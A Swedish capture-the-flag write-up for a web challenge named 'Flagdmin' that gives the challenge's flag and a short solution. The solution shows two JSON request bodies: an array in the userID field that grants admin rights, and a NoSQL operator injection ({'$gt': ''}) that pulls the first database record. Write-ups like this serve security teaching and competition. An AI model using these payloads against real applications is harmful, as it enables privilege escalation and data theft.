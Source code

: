 # Web: Flagdmin

- **Skapare:** Kelvin Szolnoky
- **Poäng:** 250
- **Antal lösningar:** 7

## Beskrivning

Built with modern node.js, redis, typescript and all the good technologies, this is the service for all admins to get their flags.

http://35.228.52.143:6969/

Given fil: src/app.ts

## Flagga

SSM{nO_n0_pL332_DOn7_no5QL1}

## Lösning

Skicka följande post request (body) till /api/login

```json
{
  "userID": ["test_user_id", "admin"]
}
```

Detta kommer göra test_user_id till admin. test_user_id kan sättas till vilken sträng som helst.

Skicka följande post request (body) till /api/get/flag

```json
{
  "userID": "test_user_id",
  "flagID": { "$gt": "" }
}
```

Detta kommer hämta det första dokumentet i databasen, vilket är flaggan


## Lösning på livestream

https://www.youtube.com/watch?v=CYBGQ9Zp6UQ&t=3930s